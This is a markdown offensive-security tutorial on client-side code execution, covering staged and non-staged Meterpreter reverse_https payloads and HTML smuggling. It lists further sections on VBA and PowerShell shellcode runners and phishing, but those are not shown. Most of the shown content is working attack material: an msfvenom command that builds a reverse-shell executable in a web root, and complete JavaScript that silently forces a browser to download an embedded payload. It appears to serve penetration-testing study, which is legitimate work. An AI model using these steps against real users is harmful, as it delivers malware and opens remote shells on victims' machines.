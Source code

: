 # Client Side Code Execution With Office

- [Staged or Non-staged Payloads](#staged-or-non-staged-payloads)
- [HTML Smuggling](#html-smuggling)
- [Introduction to VBA](#introduction-to-vba)
- [Let PowerShell Help Us](#let-powershell-help-us)
- [Phishing Pretexting](#phishing-pretexting)
- [Executing Shellcode in Word Memory](#executing-shellcode-in-word-memory)
- [VBA Shellcode Runner](#vba-shellcode-runner)
- [PowerShell Shellcode Runner](#powershell-shellcode-runner)

## Staged or Non-Staged Payloads
Staged Payload - Callback function to executes and downloads the meterpreter execution (**Size 7K Bytes**)
```bash
windows/x64/meterpreter/reverse_https
```

Non-Staged Payload - Full of code includes meterpreter (**Size 200K Bytes**)
```bash
windows/x64/meterpreter_reverse_https
```

## HTML Smuggling
Automatically saves the file without clicking.

Create a staged payload and encode it to base64.
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
base64 /var/www/html/msfstaged.exe
```


```html
<html>
  <body>
    <script>
      // Base64 decoding function
      function base64ToArrayBuffer(base64) {
        var binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);}
        return bytes.buffer;
      }
      // Converted base64 staged msfpayload
      // decode base64 msfpayload
      var file = 'TVqWEQWEFASDAAWEDASDQWDQDQSSDWQDQD....................'
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {type: 'octet/stream'});
      var fileName = 'msfstaged.exe';

      // download  
      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();
      window.URL.revokeObjectURL(url);
    </script>
  </body>
```

[https://youtu.be/N-7_JaEi1As?list=PLAXVYHMta5d4foizpSMGP9W3vFAo-9kCe&t=4767]: #